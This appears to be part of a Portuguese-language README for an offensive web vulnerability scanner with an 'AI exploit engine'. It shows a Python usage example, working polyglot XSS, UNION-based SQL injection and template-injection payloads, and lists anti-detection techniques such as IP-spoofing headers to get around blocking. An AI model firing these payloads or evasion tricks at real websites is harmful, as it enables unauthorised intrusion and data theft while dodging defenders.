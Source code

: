 **Vulnerabilidades Detectadas:**
- SQL Injection avançado
- XSS políglotas
- XXE com exfiltração
- SSTI multi-engine
- LFI/RFI inteligente

**Exemplo de Scan Inteligente:**
```python
from modules.ai_exploit_engine import AIExploitEngine

ai_engine = AIExploitEngine(logger=logger)
results = ai_engine.intelligent_vulnerability_scan("https://webapp.com")

for vuln in results:
    print(f"🧠 IA DETECTOU: {vuln.vulnerability_type}")
    print(f"   Confiança: {vuln.confidence_score:.2f}")
    print(f"   Reasoning: {vuln.ai_reasoning}")
```

---

## ⚡ FUNCIONALIDADES AVANÇADAS

### 🎯 Payloads Políglotas
Payloads que funcionam em múltiplos contextos:

```javascript
// XSS Universal
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'> 

// SQL Injection Multi-DB
1' UNION SELECT NULL,NULL,version(),NULL-- -

// SSTI Multi-Engine  
{{7*7}}${7*7}#{7*7}
```

### 🔍 Detecção Zero-Day
Heurísticas avançadas para detectar 0-days:

- **Timing Anomalies**: Respostas suspeitamente lentas
- **Content Anomalies**: Tamanhos inesperados
- **Header Anomalies**: Headers de debug expostos
- **Error Pattern Analysis**: Mensagens reveladoras

### 🎭 Técnicas Anti-Detecção

1. **User-Agent Rotation**: Browsers realistas
2. **IP Spoofing Headers**: Bypass de IP blocking
3. **Request Timing**: Jitter inteligente
4. **Session Management**: Cookies persistentes

---